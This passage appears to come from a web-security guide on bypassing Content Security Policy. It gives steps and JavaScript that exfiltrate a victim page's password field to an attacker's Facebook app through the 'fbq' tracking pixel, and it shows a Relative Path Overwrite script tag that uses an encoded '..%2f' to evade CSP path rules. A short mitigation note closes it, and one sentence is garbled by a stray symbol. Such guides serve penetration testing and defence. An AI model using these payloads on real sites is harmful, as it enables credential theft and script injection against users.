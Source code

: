 You should be able to exfiltrate data, similarly as it has always be done with [Google Analytics](https://www.humansecurity.com/tech-engineering-blog/exfiltrating-users-private-data-using-google-analytics-to-bypass-csp)/[Google Tag Manager](https://blog.deteact.com/csp-bypass/). In this case, you follow these general steps:

1. Create a Facebook Developer account here.
2. Create a new "Facebook Login" app and select "Website".
3. Go to "Settings -> Basic" and get your "App ID"
4. In the target site you want to exfiltrate data from, you can exfiltrate data by directly using the Facebook SDK gadget "fbq" through a "customEvent" and the data payload.
5. Go to your App "Event Manager" and select the application you created (note the event manager could be found in an URL similar to this: https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events
6. Select the tab "Test Events" to see the events being sent out by "your" web site.

Then, on the victim side, you execute the following code to initialize the Facebook tracking pixel to point to the attacker's Facebook developer account app-id and issue a custom event like this:

```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
    data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```

As for the other seven third-party domains specified in the previous table, there are many other ways you can abuse them. Refer to the previously [blog post](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) for additional explanations about other third-party abuses.

### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

In addition to the aforementioned redirection to bypass path restrictions, there is another technique called Relative Path Overwrite (RPO) that can be used on some servers.

For example, if CSP allows the path `https://example.com/scripts/react/`, it can be bypassed as follows:

```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

The browser will ultimately load `https://example.com/scripts/angular/angular.js`.

This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

∑, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

By **exploiting this inconsistency in URL interpretation between the browser and the server, the path rules can be bypassed**.

The solution is to not treat `%2f` as `/` on the server-side, ensuring consistent interpretation between the browser and the server to avoid this issue.
